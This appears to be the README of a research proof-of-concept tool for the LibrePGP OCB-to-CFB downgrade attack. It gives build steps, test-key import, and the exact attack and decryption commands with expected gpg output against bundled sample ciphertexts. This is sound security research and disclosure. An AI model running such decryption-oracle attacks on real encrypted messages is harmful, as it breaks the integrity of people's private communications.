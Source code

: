 
# Test tool for LibrePGP v5 AEAD-to-CFB downgrade attacks

This tool implements the AEAD-to-CFB (more specifically OCB-to-CFB) downgrade attack described in https://eprint.iacr.org/2024/1110 as a proof of concept.

## Building the tool

The tool only runs under Unix OS. It has been tested on Debian 10, but should run on any newer distribution as well. It requires GCC 13.1 or higher.

The following prerequisites have to be installed and the corresponding CMake variables of `v5-aead-decr-oracle` be set:

| Library        | GitHub URL                                      | Commit known to work                     | CMake variables to set                                                                        |
| ---            | --                                              | -----                                    | ---                                                                                           |
| Botan 3        | https://github.com/randombit/botan              | 3bee7a12a750c50a90d8147fa2d38c707b032592 | BOTAN_INCLUDE_DIR: set to `.../botan/build/include/public`, BOTAN_LIB_DIR: set to `.../botan` |
| args           | https://github.com/Taywee/args                  | b7d67237e8bdaa517d7fd6e4e84e1f6efa24f8c5 | TARGS_INCLUDE_DIR: set to `.../args`                                                          |
| cpp-subprocess | https://github.com/arun11299/cpp-subprocess.git | af23f338801ed19696da42b1f9b97f8e21dec5d6 | CPP_SUBPROCESS_INCLUDE_DIR: set to `.../cpp-subprocess`                                       |

Afterwards the tool can be built with CMake.

The GnuPG command line application must be available in the PATH variable. The attack code uses the GnuPG to perform the SED packet trial encryptions. The attack application invokes it by issuing the command `gpg`.  This version does not need to support LibrePGP OCB packets.

For the purpose of verifying the decryption of the initial unmodified packet and one produced by the attack, however, it must be ensured that a version of GnuPG is used that supports the LibrePGP OCB packets. 


## Sample attack

This section describes how to execute a sample attack against a combination of a PKESK and OCB packet that is contained in the repository together with the corresponding OpenPGP private key. The attack uses an SED-decryption oracle to replace one chunk in the OCB ciphertext with whitespaces.


### Import the test key

Before importing the test private key, consider creating a distinct key ring for it.
If it is imported into a key ring that already contains other keys, then during the attack, which performs numerous trial decryptions of manipulated ciphertexts, there will occur prompts for password entry.
This can be avoided by importing the key to a keyring of a user that has no other keys. The attack tool does not support the choice of a custom key ring. Accordingly, it is recommended to run it under a Unix user that has not other keys.

Change into the CMake build directory and execute the command
```
gpg --import ../artifacts/test-key.asc
```

### Decrypt the original plaintext
Change into the CMake build directory and execute the command
```
gpg --decrypt --show-session-key  ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_string(S), 136).
    3. return KECCAK[512](T || newX || 00, L)  // "00" is the 2-bit padding
    ```

### Run the attack to produce a manipulated ciphertext


Change into the CMake build directory and execute the command
```
./v5-aead-attack replace-chunk -u ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.pkesk.bin --iterations=100 --data-log-dir=run_time -kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914 --nb-leading-random-bytes=256  --query-repeat-count=100 --file-with-aead-packet ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
Here, the specification of the session key with `-kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914` that was determined in the previous step is optional.
It is used to detect some rare errors that can lead to a false success that will lead to failure of the attack. Remove this argument to execute the attack under realistic conditions.

You will see a lot of output and possibly password entry requests in case you have password protected keys in the key ring that is used. 

List the latest sub directory of `run_time` (under the CMake build folder). If the attack was successful, then it contains at least one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`

### Run decrypt the manipulated AEAD ciphertext
Change into the cmake build directory and execute the command (replacing the time stamp with the one of the latest run from the previous step and choosing one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`, should there
be multiple)
```
gpg --decrypt run_time/2025-03-25--10-18-00/74-pkesk-then-aead-packet-with-final-chunk-replaced
```

The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_st                                                                " is the 2-bit padding
    ```

The content of the next-to-final chunk has been replaced with whitespaces.

# License

If not otherwise noted in the source code files, they are under Apache License v2 (see file `LICENSE`). The files adopted from Botan are under the Botan license (see file `botan_license.txt`).
